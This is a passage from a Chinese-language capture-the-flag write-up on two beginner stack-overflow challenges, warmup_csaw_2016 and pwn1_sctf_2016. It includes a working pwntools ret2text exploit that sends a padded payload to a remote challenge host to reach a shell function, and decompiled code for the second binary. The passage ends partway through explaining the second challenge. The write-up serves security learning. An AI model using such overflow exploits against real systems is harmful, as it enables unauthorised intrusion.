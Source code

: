 ## 0x02 warmup_csaw_2016
### ans  ret2text
和上面一题考点相同  
这次后门函数的地址由程序直接输出。
gets()函数的简单栈溢出，没有任何保护。  
选择栈溢出覆盖 $rip 为后门函数地址。
### exp
```python
from pwn import *
context.log_level = "debug"

shell = 0x400611

# io = process('./warmup_csaw_2016')
io = remote('node3.buuoj.cn','27284')


payload = (0x40 + 8) * 'a' + p64(shell)
# io.recv()
io.sendline(payload)
# io.sendlineafter("please input",payload)

io.interactive()
```

## 0x03 pwn1_sctf_2016
### ans  ret2text
```c++
int vuln()
{
  const char *v0; // eax
  char s; // [esp+1Ch] [ebp-3Ch]  // 这里0x3C是偏移
  char v3; // [esp+3Ch] [ebp-1Ch]
  char v4; // [esp+40h] [ebp-18h]
  char v5; // [esp+47h] [ebp-11h]
  char v6; // [esp+48h] [ebp-10h]
  char v7; // [esp+4Fh] [ebp-9h]

  printf("Tell me something about yourself: ");
  fgets(&s, 32, edata);
  std::string::operator=(&input, &s);
  std::allocator<char>::allocator(&v5);
  std::string::string(&v4, "you", &v5);
  std::allocator<char>::allocator(&v7);
  std::string::string(&v6, "I", &v7);
  replace((std::string *)&v3);
  std::string::operator=(&input, &v3, &v6, &v4);
  std::string::~string((std::string *)&v3);
  std::string::~string((std::string *)&v6);
  std::allocator<char>::~allocator(&v7);
  std::string::~string((std::string *)&v4);
  std::allocator<char>::~allocator(&v5);
  v0 = (const char *)std::string::c_str((std::string *)&input);
  strcpy(&s, v0);
  return printf("So, %s\n", &s);
}
```
存在溢出点的是s这个变量，偏移是0x3C（10进制的60）。  
但是fgets的长度限制在了32。怎么办呢？  
程序把输入的 “I” 都替换成了 “you”  